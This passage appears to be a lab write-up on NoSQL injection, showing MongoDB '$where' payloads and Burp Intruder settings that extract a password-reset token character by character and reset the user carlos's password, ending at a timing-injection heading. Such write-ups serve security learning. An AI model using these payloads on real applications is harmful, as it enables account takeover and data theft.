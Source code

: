 <br>

* The fourth Key ended up containing the key for a password reset function:

```json
"$where": "Object.keys(this)[4].match('^.{<position 1>}<position 2>.*')"
```

* Now request the following endpoint, and the application responds with "Invalid Token" message:

```
GET /forgot-password?forgotPwd=
```

* Submitting any other random parameter name, will not have any affect on the application response, so we know that the parameter name "forgotPwd" is a valid one.

```
GET /forgot-password?randommmm=
```

* Now we need to extract the value of the "forgotPwd" Key one character at a time, use the following payload:

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "this.forgotPwd.match('^.{0}a.*')"
}
```

* Send the payload to Burp Intruder and use the similar configuration as before to extract the complete password.

* Cluster bomb

* Position 1 - numbers

* Position 2 - simple list

```
"$where":"this.forgotPwd.match('^.{<position 1>}<position 2>.*')"}
```


* Then send the password reset token value in the "forgotPwd" parameter and reset the password for carlos:

```
GET /forgot-password?forgotPwd=TOKEN_VALUE
```


<br><br>

### Timing based injection

*  To conduct timing-based NoSQL injection:
